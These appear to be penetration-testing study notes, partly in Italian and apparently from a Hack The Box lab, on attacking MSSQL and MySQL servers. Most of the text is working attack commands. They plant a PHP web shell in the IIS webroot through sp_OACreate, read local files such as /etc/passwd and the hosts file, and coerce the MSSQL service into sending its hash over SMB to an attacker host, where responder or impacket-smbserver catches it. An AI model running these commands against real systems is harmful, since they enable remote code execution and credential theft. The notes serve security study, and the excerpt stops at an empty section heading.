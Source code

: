 ### MSSQL Create a File
```
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```


## Read Local FIles

### Read local files in MSSQL

```
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

### Read Local FIles in MySQL
`mysql> select LOAD_FILE("/etc/passwd");`

## Capture MSSQL Service Hash

Possiamo rubare hash del servizio MSSQL usando **xp_subdirs** o **xp_dirtree**, sono stored procedure non documentate che usano SMB per retrievare una lista di child directory sotto una parent directory. Se facciamo puntare al server SMB la directory listing func forzera' il server ad autenticare e mandare l' HASH del servizio

### Con XP_DIRTREE
```
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

### Con XP_SUBDIRS
```
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

### In ascolto, XP_SUBDIRS
`j4k1dibe@htb[/htb]$ sudo responder -I tun0` con responder

`j4k1dibe@htb[/htb]$ sudo impacket-smbserver share ./ -smb2support` con Impacket

## Impersonate Existing Users with MSSQL
